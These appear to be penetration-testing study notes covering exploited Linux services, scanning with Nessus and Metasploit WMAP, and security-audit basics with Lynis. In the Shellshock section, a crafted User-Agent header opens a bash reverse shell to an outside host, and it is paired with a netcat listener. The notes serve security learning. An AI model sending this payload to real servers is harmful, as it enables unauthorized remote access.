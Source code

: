 **Frequently exploited Linux services**
Apache Web Server, SSH, FTP, SAMBA

**Shellshock exploit**
Bash shell vulnerability
```
nmap -sV 1.1.1.1 --script=http-shellshock --script-args="http-shellshock.uri=/gettime.cgi"

User-Agent: (){ :; } echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/1.1.1.1/1234 0>&1'
nc -nvlp 1234

search shellshock
```

### Vulnerability Scanning
**Nessus**
Download Nessus
```
chmod +x ...
sudo dpkg -i ...
sudo systemctl start nessusd.service
```
Can export results and import in to Metasploit
`db_import /...`
`search cve:2015 name:ManageEngine`

**WMAP**
```
load wmap
wmap_sites -a 1.1.1.1
wmap_targets -t http://1.1.1.1
wmap_run -t
wmap_run -e
```

# Auditing Fundamentals
**Security Auditing Process/Lifecycle**
1. Planning and preparation
2. Information gathering
3. Risk assessment
4. Audit execution
5. Analysis and evaluation
6. Reporting
7. Remediation

**Types of security audits**
- Internal audits
- External audits
- Compliance audits
- Technical audits
- Network audits
- Application audits

**Security auditing with Lynis**
Run scan against Lynis controls, compare with own policies



